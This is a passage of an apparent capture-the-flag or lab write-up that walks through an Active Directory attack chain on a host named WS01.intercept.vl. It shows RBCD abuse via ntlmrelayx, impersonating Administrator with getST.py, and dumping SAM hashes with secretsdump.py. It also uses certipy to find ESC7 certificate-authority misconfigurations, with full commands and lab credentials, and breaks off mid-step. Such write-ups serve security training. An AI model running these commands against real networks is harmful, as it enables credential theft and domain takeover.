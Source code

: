 <img src="https://i.imgur.com/Phtz3ZS.png"/>

From the output of ntlmrelayx, we'll see a machine account will be created with delegation rights to impersonate any users on WS01

<img src="https://i.imgur.com/fOi0LAR.png"/>

We can verify this by checking the attributes of WS01 with `rbcd.py`

<img src="https://i.imgur.com/x7E3nl6.png"/>

So now with `getST.py` we can request a TGT for administrator user on WS01 

```bash
getST.py -spn 'cifs/WS01.intercept.vl' -impersonate Administrator -dc-ip 10.10.172.149 'intercept/JELZDXBK$':'k)^g,*no2IwtvZY'
```

<img src="https://i.imgur.com/H0XNUme.png"/>
Dumping SAM hashes with `secretsdump.py`

```bash
secretsdump.py administrator@WS01.intercept.vl -k -no-pass
```

<img src="https://i.imgur.com/MXd07iG.png"/>

From the output we'll get another domain user's credentials `simon.bowen`, from bloodhound, this user has `GenericAll` on `ca-managers` group

<img src="https://i.imgur.com/Q5185O9.png"/>

```bash
certipy find -u 'Simon.Bowen' -p 'b0OI_fHO859+Aw' -vulnerable -stdout -dc-ip 10.10.172.149
```

Running `certipy` to check what access rights the groups have on certificates

<img src="https://i.imgur.com/uXEruYM.png"/>
Here ca-managers group has `ManageCa` permission which allows to change CA's settings to enable `Subject Alternative Name` (SAN) on all certificate templates which allows users to request a certificate for any domain user by enabling `EDITF_ATTRIBUTESUBJECTALTNAME2` property which is dubbed as `ESC7` (https://www.tarlogic.com/blog/ad-cs-esc7-attack/)

Checking if SAN is enabled

<img src="https://i.imgur.com/7Dtzexg.png"/>

We need to add Simon in ca-managers group, this can be done by first becoming the owner of the group and giving full control to Simon and then adding him into the group, for that we can use `owneredit.py`  and`dacledit.py` and we need to use the old version of impacket so enabling python virtual environment

<img src="https://i.imgur.com/aWTbRoY.png"/>
For using dacledit.py
